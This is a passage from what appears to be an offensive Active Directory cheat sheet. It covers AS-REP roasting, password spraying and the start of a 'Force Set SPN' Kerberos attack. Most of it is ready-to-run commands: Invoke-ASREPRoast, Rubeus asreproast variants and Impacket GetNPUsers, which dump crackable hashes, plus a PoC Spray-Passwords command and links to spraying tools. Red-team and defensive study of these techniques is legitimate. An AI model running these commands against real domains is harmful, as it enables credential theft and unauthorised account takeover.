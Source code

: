 Get any ASREPRoastable Users hashes:

```
Invoke-ASREPRoast -Verbose
```

Using Rubeus:

Trying the attack for all domain users

```
Rubeus.exe asreproast /format:<hashcat|john> /domain:<DomainName> /outfile:<filename>
```

ASREPRoast specific user

```
Rubeus.exe asreproast /user:<username> /format:<hashcat|john> /domain:<DomainName> /outfile:<filename>
```

ASREPRoast users of a specific OU (Organization Unit)

```
Rubeus.exe asreproast /ou:<OUName> /format:<hashcat|john> /domain:<DomainName> /outfile:<filename>
```

Using Impacket:

Trying the attack for the specified users on the file

```
python GetNPUsers.py <domain_name>/ -usersfile <users_file> -outputfile <FileName>
```

### Password Spray Attack

If we have harvested some passwords by compromising a user account, we can use this method to try and exploit password reuse on other domain accounts.

**Tools:**

* [DomainPasswordSpray](https://github.com/dafthack/DomainPasswordSpray)
* [CrackMapExec](https://github.com/byt3bl33d3r/CrackMapExec)
* [Invoke-CleverSpray](https://github.com/wavestone-cdt/Invoke-CleverSpray)
*   [Spray](https://github.com/Greenwolf/Spray)

    ****

{% embed url="https://github.com/ZilentJack/Spray-Passwords/blob/master/Spray-Passwords.ps1" %}

We can use this PoC script to do a password spray attack:

```
.\Spray-Passwords.ps1 -Pass password -Admin
```

### **Force Set SPN**

_What is this?: If we have enough permissions -> GenericAll/GenericWrite we can set an SPN on a target account, request a TGS, then grab its blob and brute force it._
